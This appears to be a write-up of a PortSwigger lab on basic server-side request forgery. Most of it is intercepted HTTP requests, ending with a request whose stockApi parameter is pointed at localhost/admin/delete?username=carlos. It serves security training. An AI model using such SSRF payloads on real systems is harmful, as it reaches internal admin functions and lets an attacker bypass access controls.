






# Basic SSRF against the local server

```
❓

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.
```



I start things off by playing around the store page to see what functionality it has. I then proceed to the `View details` of one of the listed items on the store home page. From here we can see a `Check stock` button, when clicked it sends out a POST request to the back end with a `stockApi` parameter that pulls the item stock information from the `http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1` this URL. 



```bash
POST /product/stock HTTP/2
Host: 0ad7000904e8e2f0c3872ef500a40002.web-security-academy.net
Cookie: session=s3EPICK8trjGTorU5IBU2SIEHlz0Q8Ur
Content-Length: 107
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0ad7000904e8e2f0c3872ef500a40002.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ad7000904e8e2f0c3872ef500a40002.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```

This could be exploited by sending this request to the Repeater and altering the stockApi url to access the admin panel, like so.

```bash
POST /product/stock HTTP/2
Host: 0ad7000904e8e2f0c3872ef500a40002.web-security-academy.net
Cookie: session=s3EPICK8trjGTorU5IBU2SIEHlz0Q8Ur
Content-Length: 107
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0ad7000904e8e2f0c3872ef500a40002.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ad7000904e8e2f0c3872ef500a40002.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http://localhost/admin
```



We can then send this request to our browser to attempt to delete the user Carlos…



Once in the browser, and attempt to delete Carlos, we will get this message.



Despite not having proper privilege to access the admin interface, by clicking the delete button for Carlos, we did receive a GET request in the HTTP history of Burp Suite, we can use the request URL  to append to the `http://localhost/admin` in our POST request

```bash
GET /admin/delete?username=carlos HTTP/2
Host: 0ad7000904e8e2f0c3872ef500a40002.web-security-academy.net
Cookie: session=s3EPICK8trjGTorU5IBU2SIEHlz0Q8Ur
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad7000904e8e2f0c3872ef500a40002.web-security-academy.net/product/stock
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Here is the final POST request to complete the lab.

```bash
POST /product/stock HTTP/2
Host: 0ad7000904e8e2f0c3872ef500a40002.web-security-academy.net
Cookie: session=s3EPICK8trjGTorU5IBU2SIEHlz0Q8Ur
Content-Length: 107
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0ad7000904e8e2f0c3872ef500a40002.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ad7000904e8e2f0c3872ef500a40002.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http://localhost/admin/delete?username=carlos
```


